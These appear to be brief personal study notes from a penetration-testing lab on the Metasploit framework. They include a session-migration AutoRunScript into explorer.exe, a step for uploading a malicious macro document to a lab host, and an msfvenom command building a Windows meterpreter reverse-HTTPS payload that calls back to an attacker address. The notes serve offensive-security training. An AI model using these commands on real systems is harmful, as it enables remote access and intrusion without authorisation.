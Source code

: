 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

### Ch1 Notes

1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba)command to verify the target allowing code execution though marco 
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```
